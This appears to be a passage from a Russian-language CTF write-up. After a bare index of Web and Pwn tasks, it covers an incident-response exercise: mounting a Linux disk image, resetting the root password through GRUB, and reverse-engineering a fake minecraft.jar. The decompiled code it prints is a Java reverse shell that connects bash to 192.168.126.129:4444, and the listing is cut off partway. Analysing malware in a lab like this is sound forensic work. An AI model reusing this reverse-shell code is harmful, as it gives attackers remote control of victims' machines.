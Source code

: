 ### Web 30 (writeup)


## PWN
### Pwn 10 (writeup)

### Pwn 20 (writeup)

### Pwn 30 (writeup)



---




# Incident Response stage (2)
`Выдан образ машины linux(vmdk)`


## First step
1. Import vmdk to virtualbox
2. Reset Sergey/Root password via grub mode
3. Login with sergey(root)


## First Recon on machine 
После беглого анализа системы видим интересные файлы и каталоги:
- /home/sergey/minecraft.jar
- /home/sergey/VTropia.exe
- /home/sergey/Download (folder)





## Minecraft.jar
( /home/sergey/minecraft.jar)

В истории к заданиям сказано, что Валера запустил майнкрафт на компьютере. 
Найдем одноименный файл и разреверсим его.
При помощи jadx декомпилируем класс `Malware`
```java 
package Malware;

import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

/* loaded from: minecraft.jar:Malware/ReverseShell.class */
public class ReverseShell {
    public static void main(String[] args) {
        try {
            Process p = new ProcessBuilder("/usr/bin/bash").redirectErrorStream(true).start();
            Socket s = new Socket("192.168.126.129", 4444);
            InputStream pi = p.getInputStream();
            InputStream pe = p.getErrorStream();
            InputStream si = s.getInputStream();
            OutputStream po = p.getOutputStream();
            OutputStream so = s.getOutputStream();
            while (!s.isClosed()) {
                while (pi.available() > 0) {
```